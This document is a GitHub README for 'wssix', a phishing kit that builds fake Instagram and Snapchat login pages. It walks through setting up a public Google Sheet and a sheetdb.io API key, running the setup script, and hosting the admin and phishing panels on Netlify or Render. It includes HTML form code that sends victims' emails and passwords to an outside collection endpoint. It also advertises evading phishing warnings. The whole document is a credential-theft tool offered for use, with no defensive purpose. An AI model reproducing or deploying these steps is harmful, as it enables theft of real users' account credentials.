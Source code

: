 
# **wssix**
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells like this :


![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## 
## **Setup Admin and Phishing Panel**  ...

- Clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Go to wssix folder
```bash
cd wssix
```
- Now, run script.py file and enter your api key as an argument . For example:
```bash
python3 script.py YOUR-API-KEY
```
- Your files are ready now !!!!

Now host **Admin** folder and **client** folder.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

**After hosting client folder you can access phish pages with /**
```
https://*******.***/instagram
```
```
https://*******.***/snapchat
```
### You can see phished credentials on admin panel.

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

